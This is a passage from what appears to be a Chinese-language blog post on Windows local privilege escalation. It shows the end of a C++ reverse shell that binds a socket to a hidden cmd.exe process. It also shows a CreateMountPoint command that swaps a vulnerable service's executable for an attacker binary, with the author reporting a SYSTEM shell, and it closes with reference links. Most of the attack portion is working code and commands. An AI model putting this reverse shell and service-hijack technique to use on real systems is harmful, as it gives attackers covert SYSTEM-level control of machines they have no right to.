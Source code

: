 ```c++
    si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)socket;
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    TCHAR cmdline[255] = L"cmd.exe";
    while (!CreateProcess(NULL, cmdline, NULL, NULL, TRUE, NULL, NULL, NULL, &si, &pi)) {
        Sleep(1000);
    }
    WaitForSingleObject(pi.hProcess, INFINITE);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

	return 0;
}
```

在编译时需要调整一些项目配置参数，反弹shell的io还有些问题，但是可以看到已经成功成为system权限

```
C:\Users\Attacker\Desktop\CreateMountPoint.exe C:\Users\Public\tmp\X1ng C:\Users\Public\tmp1 C:\Users\Public\tmp\X1ng\vul_service.exe C:\Users\Attacker\Desktop\a.exe
```

![](https://i.loli.net/2021/11/17/45P3YHAgZtBihLp.png)





> 参考资料
>
> [一步步学写Windows下的Shellcode - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/195498#h3-10)
>
> [googleprojectzero/symboliclink-testing-tools (github.com)](https://github.com/googleprojectzero/symboliclink-testing-tools)
>
> [任意文件移动导致的Windows提权攻击分析 —— (moonsec.com)](https://www.moonsec.com/archives/2768)

